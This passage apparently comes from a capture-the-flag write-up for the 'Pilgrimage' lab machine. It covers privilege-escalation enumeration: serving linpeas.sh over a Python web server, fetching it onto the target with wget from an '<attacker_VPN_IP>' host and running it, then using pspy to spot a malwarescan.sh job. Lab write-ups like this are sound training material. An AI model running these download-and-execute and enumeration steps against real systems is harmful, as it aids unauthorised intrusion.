 ```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

→ Nothing interesting really pops out

## Pspy

Through pspy we can that the [malwarescan.sh](http://malwarescan.sh) script is launched frequently to make sure that inotifywait is running on the /var/www/pilgrimage.htb/shrunk directory waiting for the creation of new files

![Untitled](images/Untitled%2013.png)

Here is the content of malwarescan.sh:

![Untitled](images/Untitled%2014.png)
